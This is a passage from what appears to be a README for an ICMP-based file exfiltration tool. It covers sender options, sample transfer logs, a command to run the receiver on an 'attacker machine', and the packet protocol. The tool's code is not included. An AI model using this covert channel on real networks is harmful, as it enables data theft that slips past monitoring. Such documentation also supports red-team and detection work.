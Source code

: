 * `-ProbeCount` - number of short pings to send before the transfer to measure round-trip time (RTT).

Notes:
* `-ChunkSize` refers to file bytes per ICMP packet payload (before adding seq/checksum overhead).
* Defaults are conservative to avoid IP fragmentation.

The sender output appears like:
```
Preparing to send 'OMG_THIS_NIST_PUBLICATION_IS_SO_SECRET_I_LIKE_TO_EXFILTRATE_CMON.pdf' (6073678 bytes) to 192.168.56.101 in 5062 chunks (chunk size 1200 bytes)

Estimated total time: 4m 18s — per-packet ≈ 51 ms (avg RTT 51 ms; DelayMs 0 ms). RTT source: measured (avg of 4/4 probes)
Lower bound (network delay ignored): 0s

Starting transfer...
Metadata sent.
Sent chunk 5061/5062 seq 5060 - 6,073,200/6,073,678 bytes
Done. Sent 6073678 bytes in 5062 chunks.
```

### Receiver
Copy **GHostEcho-Receiver.py** to the attacker machine where you want to receive the exfiltrated data, open the terminal and run:
```bash
sudo python3 GHostEcho-Receiver.py
```
Receiver behavior:
* Listens for ICMP Echo Requests.
* Recognizes the first metadata packet (starts with FileName:), replies META|OK.
* For each chunk packet, verifies CRC32 and replies ACK|<seq> or NAK|<seq>.
* Stores chunk data into temporary files (memory-friendly) and assembles the file once all chunks are received.

The receiver output appears like:
```
[*] Listening for ICMP Echo Requests (requires root). Press Ctrl-C to stop.
[META] From 84.227.35.65: filename=OMG_THIS_NIST_PUBLICATION_IS_SO_SECRET_I_LIKE_TO_EXFILTRATE_CMON.pdf, filesize=6073678, total_chunks=5062, chunk_size=1200
[+] Received 5054/5062 chunks
[+] All chunks received; assembling OMG_THIS_NIST_PUBLICATION_IS_SO_SECRET_I_LIKE_TO_EXFILTRATE_CMON.pdf ...
[+] Wrote OMG_THIS_NIST_PUBLICATION_IS_SO_SECRET_I_LIKE_TO_EXFILTRATE_CMON.pdf
```

### Protocol / Packet format

This describes the exact payloads exchanged (sender → receiver).

#### Metadata packet (ASCII)

```
FileName:<filename>
FileSize:<bytes>
TotalChunks:<n>
ChunkSize:<bytes>
```
The sender caps the metadata payload (for safety); the receiver tolerates missing fields and case differences.
